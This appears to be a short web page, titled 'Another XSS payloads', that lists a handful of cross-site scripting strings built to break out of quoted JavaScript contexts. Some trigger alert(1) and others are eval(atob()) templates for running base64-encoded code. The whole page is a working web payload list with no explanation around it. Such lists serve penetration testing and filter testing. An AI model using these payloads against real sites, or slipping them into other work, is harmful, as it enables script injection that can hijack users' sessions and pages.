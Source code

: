 ```yaml
---
layout: default
title: Another XSS payloads
---
```


```
"-alert(1)-"
\\"-alert(1)}//
"-alert(1)}//
```

```
"-eval(atob())-"
'-eval(atob())-'
```
